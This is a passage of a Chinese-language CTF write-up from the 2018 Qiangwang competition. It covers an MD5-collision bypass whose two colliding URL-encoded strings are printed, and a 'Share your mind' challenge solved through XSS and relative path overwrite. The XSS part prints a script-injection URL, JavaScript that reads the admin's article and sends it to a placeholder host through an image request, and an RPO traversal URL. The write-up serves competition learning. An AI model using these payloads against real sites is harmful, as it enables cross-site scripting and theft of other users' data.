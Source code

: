 `param1[]=1&param2[]=2`  
使用了强制字符串转化  
一番谷歌后发现这是去年BKPCTF改的一道题  
payload如下:

```
Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
>注：上述两个字符串其md5加密后密文相同。

### Share your mind
这题必须要写一下自己的踩坑经历，首先进去浏览一下页面功能，有个提交bug页面的地方，还有个可以新建文章的地方

![](https://ctfwp.wetolink.com/2018qiangwang/0.png)

最后就是浏览文章(但是只能浏览自己发的文章)，首先想到的就是xss+csrf，新建一个文章引用一段JS然后发给bot，然后ajax请求admin的文章发回来。可是按照这个思路我们发现在新建文章页面我们的`<>`被过滤了，所以我们不能直接构造一个js。猜想能不能在report页面里进行xss，但是发现存在过滤，只能像自己网站的地址发起请求，但是”居然”可以绕过!!!!!!,payload:

`http://39.107.33.96:20000/index.php/report/<script src="xxxxxx.com"></script>`

于是无尽的踩坑之旅开始了，首先是bot返回结果没有cookie，一开始也没在意以为设置了httponly,(后来大致明白bot过程了,先check url-未读,然后add_cookie-已读，这里直接用`<script>`标签其实是在add_cookie之前就返回了所以不带cookie)让他AJAX请求访问admin的文章，代码如下

```
var a = new XMLHttpRequest();
a.open('GET', 'index.php/view/article/1', false);
a.send(null);
b = a.responseText;
(new Image()).src = 'http://xxxxx/?flag=' + escape(b);
```

结果bot返回结果是未登录，然后我就很懵逼，后来给了`hint1:phantomjs/2.1.1`结果这提示给了以后我就以为是日bot，各种谷歌找2.1.1的漏洞，一直到下午出了hint2:漏洞点不在report…推翻了一个下午的努力成果。一直到晚上我才想起来index页面有一个`../static/js/bootstrap.min.js`的相对路径引用

![](https://ctfwp.wetolink.com/2018qiangwang/1.png)

想起来寒假时候看的rpo，关于rpo的原理这里不想赘述了，给个连接

>https://open.appscan.io/article-462.html

这里文章查看页面没有引用DOCTYPE html，所以存在rpo漏洞,新建一个文章,文章title为空(title不为空的时候会添加一个`<h1>`标签导致浏览器解析js的时候报错

![](https://ctfwp.wetolink.com/2018qiangwang/2.png)

内容输入js代码比如`alert(1)`

![](https://ctfwp.wetolink.com/2018qiangwang/3.png)

然后访问这

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

![](https://ctfwp.wetolink.com/2018qiangwang/4.png)
